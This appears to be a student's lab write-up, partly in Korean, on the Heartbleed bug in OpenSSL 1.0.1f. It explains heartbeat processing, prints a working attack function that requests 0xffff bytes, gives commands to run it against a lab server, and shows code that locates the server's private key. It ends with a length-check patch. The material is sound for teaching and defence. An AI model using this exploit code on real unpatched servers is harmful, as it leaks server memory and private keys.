






# Heartbeat

## 1. ssl3_write_bytes

All ssl packets are written with `ssl/s3_pkt.c/ssl3_write_bytes()`

### 1) Sending HANDSHAKE

```c
ssl/ssl_lib.c:SSL_connect(s)
=> ssl3_connect(s)
=> ssl3_client_hello(s)
=> ssl3_do_write(s, SSL3_RT_HANDSHAKE)
=> ssl3_write_bytes(s, SSL3_RT_HANDSHAKE, buf, len)  // 0x16
```

### 2) Sending APPLICATION_DATA

```c
ssl/ssl_lib.c:SSL_write(s, buf, n)
=> ssl/s3_lib.c:ssl3_write(s, buf, n)
=> ssl3_write_bytes(s, SSL3_RT_APPLICATION_DATA, buf, n) // 0x17
```

### 3) Sending HEARTBEAT

```c
ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buf, len)       // 0x18
```

- buf contains heartbeat message

  - message type (1 byte) : TLS1_HB_REQUEST(1), TLS1_HB_RESPONSE(2)
  - payload length (2 byte)
  - payload (n bytes)
  - padding (at least 16 bytes)

- Example heartbeat packet

```
00 0c 29 .........     ether header, IP header, TCP header
18 03 01 00 20     content type=0x18 (Heartbeat), version=0301(TLS 1.0), length=0x0020
d9 d2 1b .........     heartbeat message (encrypted). 01 ff ff (unencrypted)
```

When receiving HEARTBEAT packet, the server should echo with the same payload.

## 2. ssl3_read_bytes

SSL packets are read by `ssl/s3_pkt.c/ssl3_read_bytes()`

`ssl3_read_bytes()` responds to HB_REQUEST by echoing with the same payload. It calls `ssl/t1_lib.c/tls1_process_heartbeat()` for HEARTBEAT packets.

```c
int tls1_process_heartbeat(SSL *s){
   unsigned char *p = &s->s3->rrec.data[0], *pl;
   unsinged short hbtype;     // message type
   unsigned int payload;       // payload length
   hbtype = *p++;        // read message type
   n2s(p, payload);        // read payload length. n2s is network to system for 2 bytes
   pl = p;                 // pl points to the beginning of payload
   if (hbtype == TLS1_HB_REQUEST){ // respond to heartbeat request
      unsigned char *buffer, *bp;
      buffer = OPENSSL_malloc(1+2+payload+padding);
      bp=buffer;
      *bp++=TLS1_HB_RESPONSE;   // write message type
      s2n(payload, bp);                // write payload length. s2n is system to network
      memcpy(bp, pl, payload);         // echo the same payload
      .....
      ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, ...);  // and send it back
   }
}
```

## 3. Heartbleed attack

By setting payload length to 0xffff, we can read 0xffff bytes of memory in the SSL server.

`hb.c` :

```c
.............
void *heartbleed(connection *c, unsigned int type){
// type is 1. send heartbeat
   unsigned char *buf, *p;
   buf=OPENSSL_malloc(1+2); // for message type and length
   p=buf;
   *p++=TLS1_HB_REQUEST; // heartbeat request
   // now fill in length field
   switch (type){
      case 0:
         s2n(0x0, p);
         break;
      case 1:
         s2n(0xffff, p);  // this is our case. set length=0xffff
         break;
      default:
         s2n(type, p);   // the user can specify the length
         break;
   }
   // now send
   ret=ssl3_write_bytes(c->sslHandle, TLS1_RT_HEARTBEAT, buf, 3);
   OPENSSL_free(buf);
   return c;
}
```

## 4. Attack scenario

```
run hb (the attacker)
=> send HEARTBEAT packet with
        message type= TLS1_HB_REQUEST
        payload length=0xffff

=> SSL server receives this packet, stores in s->s3->rrec->data[], and calls tls1_process_heartbeat(SSL *s)
        s->s3->rrec->data:
            data[0]: TLS1_HB_REQUEST
            data[1],data[2]: 0xffff

=> tsl1_process_heartbeat tries to echo the payload data in rrec->data by the amount indicated in data[1] and data[2]. It assumes the payload data starts at rrec->data[3].
      .................
      memcpy(bp, pl, payload);         // bp points to a response packet buffer
                                       // pl points to rrec->data[3]. payload=0xffff
                                       // copy 0xffff bytes from rrec->data[3] into buffer
      ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, ...);  // and send to the attacker

=> the attacker receives 0xffff bytes of the server memory starting at rrec->data[3]
```

## 5. Homework

### 1) Try `hb.c`.

```bash
$ cp ../../hb.c .
```

Move `hb.c` to `openssl-1.0.1f/demos/ssl/` directory and compile.

```bash
$ gcc  -L/home/sec11/12181879/openssl/lib  -I/home/sec11/12181879/openssl/include  -o  hb hb.c -lssl -lcrypto -ldl
```

Run server and hb.

```bash
$ ./serv
```

In another window

```bash
$ ./hb -s 165.246.38.151 -p 12500 -f out -t 1
```


The result should be in file `out`. See `out` with `xxd` and find the server certificate information.

```bash
$ xxd out > xo
$ vi xo
```



대략 0x004610부터 0x004680까지 server certificate information이 유출되었다.

### 2) Modify `hb.c`

`hb.c` :

```c
void * heartbleed(...){
   ........
   buf = OPENSSL_malloc(1+2+512);
   ...........
   switch(type){
           ..........
   }

   *p++='a'; *p++='b'; // 2 byte payload ("ab")
   ....
   ret = ssl3_write_bytes(...., buf, 3 + 2);
   .......
}
```

Recompile `hb.c`, run server, and run `hb` (in another window) with type 2.<br>
(You have to remove old "out" file before running `hb`.)

```bash
$ gcc  -L/home/sec11/12181879/openssl/lib  -I/home/sec11/12181879/openssl/include  -o  hb hb.c -lssl -lcrypto -ldl
$ ./serv
$ rm out
$ ./hb -s 165.246.38.151 -p 12500 -f out -t 2
```



서버가 `out` 파일에서 "ab"를 에코(echo)한 것을 확인하였다.

### 3-1) Draw the SSL packet generated in [1)](#1-try-hbc) and [2)](#2-modify-hbc) respectively.

1)은 heartbleed attack으로 0xffff bytes를 읽어오고 2)는 설정해준 payload 2 bytes와 padding data 16 bytes, 부가 3 bytes가 서버로부터 오게된다.

### 3-2) Explain why you have different result in [1)](#1-try-hbc) and [2)](#2-modify-hbc) above by analyzing `heartbleed()` function in `hb.c` and `tls1_process_heartbeat()` function in `ssl/t1_lib.c`.

`heartbleed()` function in `hb.c` :

```c
void* heartbleed(connection *c,unsigned int type){
        unsigned char *buf, *p;
        int ret;

        // Edit at 2022 11 16
        // buf = OPENSSL_malloc(1 + 2);
        buf = OPENSSL_malloc(1+2+512);

        if(buf==NULL){
                printf("[ error in malloc()\n");
                exit(0);
        }
        p = buf;
        *p++ = TLS1_HB_REQUEST;
        switch(type){
                case 0:
                        s2n(0x0,p);
                        break;
                case 1:
                        s2n(0xffff,p);
                        break;
                default:
                        printf("[ setting heartbeat payload_length to %u\n",type);
                        s2n(type,p);
                        break;
        }

        // Add at 2022 11 16
        *p++='a'; *p++='b'; // 2 byte payload ("ab")

        printf("[ <3 <3 <3 heart bleed <3 <3 <3\n");

        // Edit at 2022 11 16
        // ret = ssl3_write_bytes(c->sslHandle, TLS1_RT_HEARTBEAT, buf, 3);
        ret = ssl3_write_bytes(c->sslHandle, TLS1_RT_HEARTBEAT, buf, 3+2);

        OPENSSL_free(buf);
        return c;
}
```

`tls1_process_heartbeat()` function in `ssl/t1_lib.c`:

```c
int tls1_process_heartbeat(SSL *s)
{
    unsigned char *p = &s->s3->rrec.data[0], *pl;
    unsigned short hbtype;
    unsigned int payload;
    unsigned int padding = 16; /* Use minimum padding */

    /* Read type and payload length first */
    hbtype = *p++;
    n2s(p, payload);
    pl = p;

    if (s->msg_callback)
        s->msg_callback(0, s->version, TLS1_RT_HEARTBEAT,
                        &s->s3->rrec.data[0], s->s3->rrec.length,
                        s, s->msg_callback_arg);

    if (hbtype == TLS1_HB_REQUEST)
    {
        unsigned char *buffer, *bp;
        int r;

        /* Allocate memory for the response, size is 1 bytes
         * message type, plus 2 bytes payload length, plus
         * payload, plus padding
         */
        buffer = OPENSSL_malloc(1 + 2 + payload + padding);
        bp = buffer;

        /* Enter response type, length and copy payload */
        *bp++ = TLS1_HB_RESPONSE;
        s2n(payload, bp);
        memcpy(bp, pl, payload);
        bp += payload;
        /* Random padding */
        RAND_pseudo_bytes(bp, padding);

        r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding);

        if (r >= 0 && s->msg_callback)
            s->msg_callback(1, s->version, TLS1_RT_HEARTBEAT,
                            buffer, 3 + payload + padding,
                            s, s->msg_callback_arg);

        OPENSSL_free(buffer);

        if (r < 0)
            return r;
    }
    else if (hbtype == TLS1_HB_RESPONSE)
    {
        unsigned int seq;

        /* We only send sequence numbers (2 bytes unsigned int),
         * and 16 random bytes, so we just try to read the
         * sequence number */
        n2s(pl, seq);

        if (payload == 18 && seq == s->tlsext_hb_seq)
        {
            s->tlsext_hb_seq++;
            s->tlsext_hb_pending = 0;
        }
    }

    return 0;
}
```

`rrec.data`에 요청받은 heartbeat request message가 저장된다.<br>
`p`는 `rrec.data`의 시작 주소를 가리킨다.

if문에 들어가고 memcpy를 통해 buffer의 시작 주소를 가리키는 `bp`를 생성한다.<br>
buffer에 `TLS1_HB_RESPONSE`를 저장하고 `bp`를 1byte 이동시켜 payload의 길이를 저장한다. <br>
그후 bp가 가리키는 곳에 payload를 가리키는 포인터 pl로부터 payload 길이만큼 복사한다. <br>
bp를 payload 길이만큼 이동시킨 후, padding 값을 더한다. <br>
여기서 type을 1로 주면 cli가 0xffff길이의 payload를 요구하면서 serv의 예민한 정보까지 유출되고, <br>
[2)](#2-modify-hbc)는 type을 default로 주고 payload도 2bytes로 주었기 때문에 서버의 정보가 유출되지 않게 된다.

### 4) Modify ssl source such as follows so that it displays server private key and its memory location.

#### 4.1) `openssl-1.0.1f/include/openssl/ssl.h`

Add `BN_ULONG * print_server_priv_key(const SSL_CTX *ctx);` after C linkage reference as below

```c
    .................
    #ifdef __cplusplus
    extern "C" {
    #endif

    BN_ULONG * print_server_priv_key(const SSL_CTX *ctx);
    .....................
```

- extern “C” declaration prevents C++ compiler from changing file names.
- BN_ULONG stands for Big Number Unsigned Long

#### 4.2) `openssl-1.0.1f/ssl/s3_srvr.c`

Define `print_server_priv_key()` here

```c
void print_key(unsigned char *pkey){
   int i;
   for(i=0;i<128;i++){ // assume 1024 bit private
      printf("%2x:",pkey[i]);
      if ((i+1)%15==0) printf("\n");
   }
   printf("\n");
}
BN_ULONG *print_server_priv_key(const SSL_CTX *ctx){ // refer to lect12
   CERT *ct=ctx->cert;
   EVP_PKEY *epkey=ct->key->privatekey;
   BN_ULONG *priv=epkey->pkey.rsa->d->d;
   unsigned char *pkey=(unsigned char *)priv;
   print_key(pkey);
   return pkey;
}
```

#### 4.3) Call this function in `openssl-1.0.1f/demos/ssl/serv.cpp` after `SSL_CTX_check_private_key` function call.

```c
if (!SSL_CTX_check_private_key(ctx)){
   .................
}

BN_ULONG *pkey=print_server_priv_key(ctx);
printf("private key location:%p\n", pkey);
```

수정 후에 재설치 및 recompile 한다.

```bash
$ pwd
/home/sec11/12181879/openssl-1.0.1f
$ make
$ make install
$ cd demos/ssl
$ g++ -L/home/sec11/12181879/openssl/lib -I/home/sec11/12181879/openssl/include -fpermissive -o serv serv.cpp -lssl -lcrypto -ldl
```

#### 4.4) What is the memory address of the server's private key? Check whether this server private key is correct. It should match privateExponent in `servkey.txt` (generated as in below) in reverse order.

```bash
$ ./serv
# open a new terminal and compare with another terminal
$ openssl rsa -in servkey.pem -text -out servkey.txt
```



server의 private key 주소는 0xcb00e0이다. server 실행 시 출력되는 private key와 `servkey.txt`의 privateExponent에 있는 key 값이 역순이지만 내용은 일치했다.

### 5) Perform Heartbleed attack as follows to obtain the server's private key. We know the memory location of the server's private key. We check whether the leaked memory can contain this address. To find out this, we modify the kernel such that it displays the leaking memory address.

#### 5.1) Modify `ssl/t1_lib.c/tls1_process_heartbeat()` to display the leaking memory address.

```c
      ...........
      if (hbtype==TLS1_HB_REQUEST){ // heartbeat packet is processed here
         .............
         printf("leaking mem addr:%p\n", pl);
         memcpy(bp, pl, payload);
         .............
      }
```

수정 후에 재설치 및 recompile 한다.

```bash
$ pwd
/home/sec11/12181879/openssl-1.0.1f
$ make
$ make install
$ cd demos/ssl
$ g++ -L/home/sec11/12181879/openssl/lib -I/home/sec11/12181879/openssl/include -fpermissive -o serv serv.cpp -lssl -lcrypto -ldl
$ g++ -L/home/sec11/12181879/openssl/lib -I/home/sec11/12181879/openssl/include -fpermissive -o cli cli.cpp -lssl -lcrypto -ldl
```

#### 5.2) Run server and `hb`.

```bash
$ ./serv
$ ./hb -s 165.246.38.151 -p 12500 -f out -t 1
```



The system will show the leaking memory location and the contents. If the leaking address is lower than server private key location and the distance is less than 65535, the dumped output will contain the server private key.

heartbleed attack에 의해 유출되는 정보의 위치인 0x26660e0부터 0xffff 이후까지인데 private key의 위치는 0x266df63으로 이전 위치이다. 따라서 이 경우 private key가 유출되지 않는다.

### 6) How can you fix SSL to prevent Heartbleed attack?

Heartbleed attack을 방지하여 정보 유출을 막는 방법을 찾아야한다.

[3-2)](#3-2-explain-why-you-have-different-result-in-1-and-2-above-by-analyzing-heartbleed-function-in-hbc-and-tls1_process_heartbeat-function-in-sslt1_libc)번에서 payload가 비어있다는 것을 확인하지 않았던 것이 문제이다.

`payload`의 길이만 보지 않고, 1가 존재 여부를 확인하는 과정이 필요하다.

그러므로 아래와 같이 `payload`가 존재하는지 확인하는 과정을 추가하였다.

`tls1_process_heartbeat()` function in `ssl/t1_lib.c`:

```c
int tls1_process_heartbeat(SSL *s)
{
    ......

    if (hbtype == TLS1_HB_REQUEST)
    {
        ......

        /* Enter response type, length and copy payload */
        *bp++ = TLS1_HB_RESPONSE;
        s2n(payload, bp);
        printf("leaking mem addr:%p\n", pl);

        if (1+2+payload != s->s3->rrec.length)
        {
            printf("heartbleed attack\n");
            exit(0);
        }

        memcpy(bp, pl, payload);
        bp += payload;
        ......

    }
    else if (hbtype == TLS1_HB_RESPONSE)
    {
        ......
    }

    return 0;
}
```

`payload` 변수에 1+2를 더한 뒤에 길이와 값이 실제 길이 `rrec.length`와 일치하지 않으면 강제로 종료하도록 하였다.

수정 후에 재설치 및 recompile 한다.

```bash
$ pwd
/home/sec11/12181879/openssl-1.0.1f
$ make
$ make install
$ cd demos/ssl
$ g++ -L/home/sec11/12181879/openssl/lib -I/home/sec11/12181879/openssl/include -fpermissive -o serv serv.cpp -lssl -lcrypto -ldl
```

수정 후에 재설치 및 recompile 하고, server와 `hb`를 실행한다.

```bash
$ pwd
/home/sec11/12181879/openssl-1.0.1f
$ make
$ make install
$ cd demos/ssl
$ ./serv
$ ./hb -s 165.246.38.151 -p 12500 -f out -t 1
```



`hb`를 실행할 때, 1번 즉 0xffff를 전달하면 heart bleed이므로 종료되는 것을 알 수 있다.

```bash
$ ./serv
$ ./hb -s 165.246.38.151 -p 12500 -f out -t 2
```



길이에 맞게 2번으로 통신하면 정상적으로 작동하는 것을 알 수 있다.
